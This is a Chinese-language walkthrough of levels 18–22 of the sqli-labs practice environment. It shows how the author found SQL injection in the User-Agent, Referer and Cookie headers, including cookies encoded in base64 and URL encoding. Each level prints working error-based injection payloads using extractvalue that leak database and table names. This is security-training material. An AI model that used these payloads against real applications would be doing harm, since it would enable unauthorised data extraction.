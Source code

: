 # 18-22
## 第十八关
该关场景是一个登录框
有如下提示：
>Your IP ADDRESS is: 127.0.0.1
暂不清楚有啥意思，先进行简单尝试，各种尝试都失败。
通过查看源码发现，后端对输入的都进行了转义，因此无法直接注入出数据。
后端逻辑是，对输入的数据进行过滤，然后到数据库中进行查询，如果查询结果为真（即用户名和密码和数据库结果匹配），则对security.uagents表user-agent，IP，username字段插入接收到的这三个字段的值。
并没有对user-agent和IP字段进行校验，因此可以控制这两个字段，进行sql注入
先爆破出密码，然后再次登录时，更改http包头，在其字段进行注入
环境配置问题，通过查看数据库，发现passwd字段根本没密码，怪不得爆破不出来。
知道密码后，抓包更改header字段查看是否存在sql注入
经过尝试，发现仅有User-Agent字段添加`'`后出现sql语法报错，说明存在sql注入
该字段是insert语句，因此，只能使用报错注入
对User-Agent字段注入如下信息
```
User-Agent: 1',(extractvalue(1,concat(0x7e,database(),0x7e))),3)#
User-Agent: 1',3,(extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database(),0x7e))))#
```
成功爆出数据库信息
## 第十九关
和十八关一样，进行尝试后，输入框无法进行注入  
尝试抓包
对各个字段进行尝试后发现，Referer字段会回显sql注入错误，因此判定该字段会存在sql注入
报错显示
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '127.0.0.1')' at line 1
因此判定该处有`)`包裹，进一步尝试，发现`)`包裹有两列。
尝试报错注入：
```
Referer:http://127.0.0.1/sqli-labs-master/Less-19/',extractvalue(1,concat(0x7e,database(),0x7e)))#
```
爆出数据
## 第二十关
正常登录以后页面回显
>I LOVE YOU COOKIES
因此猜测是COOKIE字段存在sql注入
进行尝试，
抓包的第二个请求包才会包含Cookie字段，第一个请求包会包含输入的数据
第二个数据包中的Cookie字段进行尝试，存在sql注入
>Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin'' LIMIT 0,1' at line 1
```
Cookie: uname=admin' and extractvalue(1,concat(0x7e,database(),0x7e))#
```
通过尝试，爆出数据
## 第二十一关
该关和上一关相同，只不过对Cookie字段的用户名进行了base64编码后进行了URL编码，同样的注入手段进行base64编码和URL编码即可
通过输入`admin'`同样报错
>Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin'') LIMIT 0,1' at line 1
变量是使用`('')`进行包裹，闭合后尝试报错注入
```
Cookie:admin') and extractvalue(1,concat(0x7e,database(),0x7e))#
```
经过编码后成功爆出数据
## 第二十二关
和上一关相同，通过输入`"`后报错
>Issue with your mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"admin"" LIMIT 0,1' at line 1
通过错误信息可以知道，变量是被`"`包裹的
进行报错注入尝试：
```
Cookie:admin" and extractvalue(1,concat(0x7e,database(),0x7e))#
```
经过base64和URL编码后成功爆出信息

